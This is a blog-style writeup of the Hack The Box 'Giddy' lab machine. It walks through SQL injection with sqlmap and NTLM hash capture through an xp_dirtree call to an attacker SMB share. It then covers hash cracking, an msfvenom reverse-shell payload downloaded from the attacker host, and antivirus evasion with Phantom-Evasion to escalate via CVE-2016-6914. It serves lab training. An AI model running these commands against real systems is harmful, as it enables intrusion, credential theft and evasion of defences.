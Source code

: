 ```yaml
---
layout: post
title:  "Hack The Box Giddy writeup (w/o Metasploit)"
date:   2019-10-22 11:52:14 -0400
featured_img: "/assets/giddy-10.10.10.104.png"
categories: giddy HTB
---
```


10.10.10.104 - Giddy
![Giddy](/assets/giddy-10.10.10.104.png)


First of all we will start with nmap.

`nmap -sC -sV -O 10.10.10.104`

![nmap](/assets/nmap-10.10.10.104.png) Ports 80 and 443 are open. Name of the machine is 'Giddy'


Let's try searching directories on the server:

`root@kali:~/dirsearch# python3 dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e asp -f -t 20 -u 10.10.10.104`

![dirsearch](/assets/dirsearch-10.10.10.104.png)


Here we can see two interesting paths:
- /remote
- /mvc


Let start with `/remote`

![dirsearch](/assets/remote-10.10.10.104.png)

We need credentials to login. But we do not have those. So let's look elsewhere.

Now let's try `/mvc`

![dirsearch](/assets/mvc-10.10.10.104.png)



Let's check for SQL injections
![search](/assets/search-10.10.10.104.png)

adding ' in the end of string gives us an error
![SQL injection](/assets/search-sqli-10.10.10.104.png)

So lets try running sqlmap

`sqlmap -u http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=10 --dump`

![SQL injection](/assets/sqlmap-10.10.10.104.png)

We are dealing with MSSQL server here



Given command will dump tables to `/root/.sqlmap/output/10.10.10.104/dump/Injection/`

![SQL injection](/assets/sqlmap-files-10.10.10.104.png)

But the only useful info we could find is the user --> `Stacy`

Ok. So what's next?
After some googling around I noticed that everybody was pointing to this post [https://www.patrickkeisler.com/2012/11/how-to-use-xpdirtree-to-list-all-files.html][xpdirtree] about xp_dirtree.

`xpdirtree : 1; EXEC MASTER.sys.xp_dirtree '\\10.10.14.19\share'`

![SQL request](/assets/sqli-request-10.10.10.104.png)

We can try to capture NTLM hash using extended stored procedure `xp_dirtree` by making it connect to our [smbserver](https://github.com/SecureAuthCorp/impacket) or [Responder](https://github.com/lgandx/Responder).
Good article on responder [Pwning with Responder – A Pentester’s Guide](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)

So, let's start smbserver.py that will listen on our Kali machine

![listen with smbserver.py](/assets/smbserver-10.10.10.104.png)

Alternatively we can do it with responder

request:

`https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=10; EXEC MASTER.sys.xp_dirtree '\\10.10.14.19'`

listen:

`./Responder.py -I tun0 -w -r -f`

Either way we will get hash:

{% highlight shell %}
Stacy::GIDDY:
4141414141414141:e2b88cdd4f99f01556ca0199ca1db0e0:010100000000000000b58d3b6879d50
{% endhighlight %}

So I saved it to giddy_hash.txt file and try to crack it.
We can do it using `hashcat` or `john`

hashcat

![hashcat part 1](/assets/hashcat-10.10.10.104.png)

![hashcat part 2](/assets/hashcat2-10.10.10.104.png)

john

`john --wordlist=/usr/share/wordlists/rockyou.txt giddy_hash.txt`

![john](/assets/john-10.10.10.104.png)

password: xNnWo6272k7x

So now, let's go to /remote and try to login with our creds

![login](/assets/login-10.10.10.104.png)

Congrats, we are in.

![login](/assets/user-flag-10.10.10.104.png)

and so, we got user.

Inside Documents folder we found a file name unifivideo.
Let's google it. Turns out there is a privesc cve ( CVE-2016-6914 ) for this application.
Here is a good explanation on how we can take advantage of it [https://www.exploit-db.com/exploits/43390][43390]

This part is the most interesting for us:

`By copying an arbitrary "taskkill.exe" to "C:\ProgramData\unifi-video\" as an
unprivileged user, it is therefore possible to escalate privileges and execute
arbitrary code as NT AUTHORITY/SYSTEM.`

So all we need here is to generate reverse shell file, name it taskkill.exe, copy it onto the
system and place it inside `C:\ProgramData\unifi-video\` folder.
Sounds easy.

So, first, we should generate reverse shell:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=443 -f exe > taskkill.exe`

![msfvenom](/assets/msfvenom-10.10.10.104.png)

and upload our file:

`Invoke-WebRequest -o taskkill.exe http://10.10.14.19/taskkill.exe`

![login](/assets/bad-upload-10.10.10.104.png)


Oh no, something is wrong


Our file is not there. Why? Probably an antivirus blocking us from doing what we want.
There is a tool called phantom evasion ([https://github.com/oddcod3/Phantom-Evasion][Phantom]) that
will help obfuscate code of our reverse shell so antivirus can't recognize and block it.

![phantom1](/assets/phantom1-10.10.10.104.png)

We will use following options.
1 windows modules ,
1 shellcode injection
4 windows shellcode injection heapalloc

![phantom2](/assets/phantom2-10.10.10.104.png)

here we choose Msfvenom
And for encoding option 4: x86/xor_dynamic + Triple Multibyte-key xor

![phantom3](/assets/phantom3-10.10.10.104.png)

for multi processes behaviour , stripping and signing the executable we choose not to do that
This time when we upload the file it will work


Lets restart service and see waht is going on:
Restart-Service -Name "Ubiquiti UniFi Video"

![Restart Service](/assets/restart-service-10.10.10.104.png)

so we got the system

![root shell](/assets/root-shell-10.10.10.104.png)

And here goes our root flag

![Root flag](/assets/root-flag-10.10.10.104.png)



[43390]: https://www.exploit-db.com/exploits/43390
[Phantom]:   https://github.com/oddcod3/Phantom-Evasion
[xpdirtree]: https://www.patrickkeisler.com/2012/11/how-to-use-xpdirtree-to-list-all-files.html
